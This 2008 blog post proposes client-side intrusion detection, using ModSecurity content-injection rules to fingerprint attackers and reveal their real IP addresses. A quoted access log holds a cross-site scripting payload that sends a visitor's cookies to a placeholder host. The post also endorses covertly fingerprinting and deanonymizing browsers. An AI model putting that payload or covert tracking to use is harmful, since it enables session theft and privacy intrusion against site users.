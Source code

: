 ```yaml
---
title: Content Injection - Hack the Hacker
author: david-kierznowski
date: Fri, 11 Apr 2008 13:52:19 GMT
template: post.jade
category: fucked
---
```


Traditional IDS/IPS systems occur at the network level, usually plugged into a spanning port on a switch. I love this concept and think it should be part of any defense in depth strategy. The two primary weaknesses in these devices are, (1) they cannot process encrypted streams and (2) they can often be circumvented with a little creativity. In this post I want to discuss using Client-Side IDS (C-IDS) for more advanced attack detection.

I don't know how realistic this would be but it could be fun concept to investigate. Imagine setting up modules on your reverse proxy. As user visits the site, different modules could get launched during different requests. One module could detect a user's browser plugins. One module could detect Tor and other services with Tor. Put the results into a hashing algorithm and you have a semi-unique client fingerprint regardless of IP address (although privacy laws could restrict these kinds of requests). OR, our reverse proxy could inject random code snippets of defense, overwriting and hijacking JavaScript functions (i.e. alert) with our own action (i.e. logging, blocking etc). Check out some of Mario's code snippets of defense for the idea: [here](/blog/snippets-of-defense-pti/), [here](/blog/snippets-of-defense-ptii/), [here](/blog/snippets-of-defense-ptiii/), and [here](/blog/snippets-of-defense-ptiv/)

So what benefits would a client-side IDS (C-IDS) provide?

* Client side code is interoperable. This means it can be rapidly deployed across any number of networks;
* Client side code works over encrypted sessions. We don't need to worry about SSL termination issues and reading into encrypted sessions;
* Client side code allows us to hook into the user's browser where the attacks are happening. This gives us greater control and the possibility to detect advanced anti-filter attacks (obfuscation & polymorphism.);
* Client side code allows us to attack the attacker. We could execute code to determine if the attacker is using Tor or any number of browser-related variables.

Basically, the same engine discussed for Web 2.0 worms could theoritically be used as an additional **defense in depth** tool. The latest version of [ModSecurity (2.5)](http://modsecurity.org/projects/modsecurity/apache/feature_content_injection.html) allows two new rules, `"prepend"` or `"append"`. These rules allow us to insert HTML/text into our HTTP responses. This type of flexability opens an entire range of doors. Great stuff guys! Here's an example from ModSecurity Content Injection article:

The following rule uses the same data as the previous example, except this time, instead of simply sending an alert pop-up box we are sending the `MyAddress.class` java applet. This code will force the attacker's browser to initiate a connection back to our web server.

	SecRule TX:ALERT "@eq 1" "phase:3,nolog,pass,chain,prepend:''"
	SecRule RESPONSE_CONTENT_TYPE "^text/html"

So, if an attacker sends a malicious request that ModSecurity triggers on, this rule will then fire and it will send the injected code to the client. Our Apache access_logs will show data similar to this:
 
	203.160.1.47 - - [20/Jan/2008:21:15:03 -0500] "GET /cgi-bin/foo.cgi?param=%3Cscript%3Edocument.write('%3Cimg%20src=%22http://hackersite/'+document.cookie+'%22')%3C/script%3E HTTP/1.1" 500 676
	203.160.1.47 - - [20/Jan/2008:21:15:03 -0500] "GET /cgi-bin/grab_ip.php?IP=222.141.50.175 HTTP/1.1" 404 207

As you can see, even though the IP address in the access_logs shows `203.160.1.47`, the data returned in the `QUERY_STRING` portion of the second line shows that the real IP address of the attacker is `222.141.50.175`. This would mean that in this case, the attacker's system was not on a private network (perhaps just connecting their computer directly to the internet). `Attacker's computer -> Proxy -> Proxy -> etc... -> Target Website`.
